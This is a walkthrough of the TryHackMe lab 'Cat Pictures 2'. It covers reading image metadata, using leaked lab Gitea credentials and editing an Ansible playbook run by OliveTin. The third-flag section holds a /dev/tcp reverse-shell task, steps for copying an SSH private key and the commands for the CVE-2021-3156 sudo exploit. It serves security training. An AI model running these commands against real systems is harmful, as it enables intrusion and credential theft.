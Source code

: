 # Cat Pictures 2

This is a writeup for the TryHackMe room [Cat Pictures 2](https://tryhackme.com/room/catpictures2).

<Image src="https://tryhackme-images.s3.amazonaws.com/room-icons/4c424fa649d64938ae8282b14e4299ac.png" width="128" />

Main parts of the room:

- Reading image metadata
- Accessing Gitea and editing files using Git or in-browser editor
- Runnig custom Ansible tasks through OliveTin
- Exploiting CVE-2021-3156

## Footprinting

Firstly, we can start with a nmap scan.

We find five open ports with three web servers publicly accessible.

```bash
nmap -sS <HOST>
```

<Image src="/images/writeups/thm/challenges/cat-pictures-2/nmap.png" />

```
22 -> SSH
80 -> Lychee Photo Album
222 -> Gitea SSH (?)
3000 -> Gitea
8080 -> python server (?)
```

## First flag

### Finding interesting metadata

We can begin by looking inside the Lychee Photo Album.

In the info of the first image we can find a message about stripping away the metadata.

<Image src="/images/writeups/thm/challenges/cat-pictures-2/image.png" />

Once the image is downloaded, we can check its metadata to find an url to a secret txt note.

```
exiftool image.jpg
```

<Image src="/images/writeups/thm/challenges/cat-pictures-2/metadata.png" />

### The secret note

The url is `:8080/764efa883dda1e11db47671c4a3bbd9e.txt`

```
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

### Accessing Gitea

Now, we have the credentials for the Gitea instance.

Once logged in, we can see a repository called `ansible`.

<Image src="/images/writeups/thm/challenges/cat-pictures-2/repo.png" />

Inside the repository there is a file called `flag1.txt`. Open it to get the first flag.

## Second flag

### Running Ansible tasks using OliveTin

From the secret note, we know that Ansible is accessible on the port 1337.

There we can find a OliveTin instance that allows to run the Ansible tasks.

<Image src="/images/writeups/thm/challenges/cat-pictures-2/ansible.png" />

### Editing the playbook

It is possible to change the script `playbook.yml` through Gitea and then run it from OliveTin.

If you prefer you can also configure the ssh access and modify it from your machine.

<Image src="/images/writeups/thm/challenges/cat-pictures-2/edit.png" />

Firstly, we can print the content of the home folder.

Following the example script, this is a possible solution.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print home folder
      become: false
      command: ls -lR ~
      register: ls_content
      changed_when: false

    - debug: var=ls_content
```

Run the script and check the output.

We can see that in the home folder there is a file called `flag2.txt`.

We can edit again the script to print the content of the flag.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print flag2
      become: false
      command: cat flag2.txt
      register: flag2
      changed_when: false

    - debug: var=flag2
```

<Image src="/images/writeups/thm/challenges/cat-pictures-2/ansible-output.png" />

If you check the output, you can see the second flag.

## Third flag

### Obtaining a reverse shell

For the third flag, it is better to use a reverse shell.

Remember to listen with:

```bash
nc -nlvp <PORT>
```

To check your IP use:

```bash
ifconfig
```

In this Gist you can find an example:

<Gist id="32ccf1baaa3066654a460265fca53960" />

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: rev
      shell: bash -c 'bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1'
```

<Image src="/images/writeups/thm/challenges/cat-pictures-2/rev.png" />

### Stealing ssh keys

To make the work easier, we can also steal the ssh key.

It is enough to copy the content of `~/.ssh/id_rsa` and paste it in a file on our machine.

Then, we can use the command `ssh -i <FILE> bismuth@<HOST>` to login.

### Exploiting CVE-2021-3156

We can try with LinPeas and LinEnum, but a faster way is to exploit the CVE-2021-3156 vulnerability.

[https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

Download the file from the github repo and copy them on the machine.

After that, follow the instructions to exploit the vulnerability.

In the end, you should run something like this:

```bash
# build the exploit
make

# obtain a list of possible targets
./sudo-hax-me-a-sandwich

# select a target
./sudo-hax-me-a-sandwich 0
```

The third flag is in the root folder.

<Image src="/images/writeups/thm/challenges/cat-pictures-2/pe.png" />
